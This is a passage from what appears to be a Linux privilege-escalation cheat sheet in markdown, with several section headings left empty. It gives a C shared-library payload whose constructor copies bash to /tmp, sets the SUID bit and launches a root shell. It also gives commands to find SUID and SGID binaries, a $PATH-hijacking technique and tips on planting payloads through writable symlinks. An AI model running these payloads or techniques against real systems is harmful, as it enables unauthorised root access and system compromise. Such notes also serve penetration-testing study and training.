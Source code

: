 Compile .so file and place it in the necessary location, e.g.
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

---

#### Symlink
Check whether there is a reference to another file or symbolic link and whether it exists and place the payload there if you have write access
```shell
ls -l <path>
```

---

#### Evnironment Variables
- Executable running as root may use the $PATH variable via `system()`, `popen()`, `execlp()`, `execvp()`, `execvpe()`, etc.
- Can check using
    - Decompilation/disassembly
    - Strings

```shell
find / -type f -perm -04000 -ls 2>/dev/null  # All SUID files
find / -type f -perm -02000 -ls 2>/dev/null  # All SGID files
```

Exploit by placing the payload in a location in $PATH which precedes all other defined paths

---

### Startup Scripts

---

### Configuration Files

---

## OS
Distribution details
```shell
cat /proc/version
cat /etc/issue
```
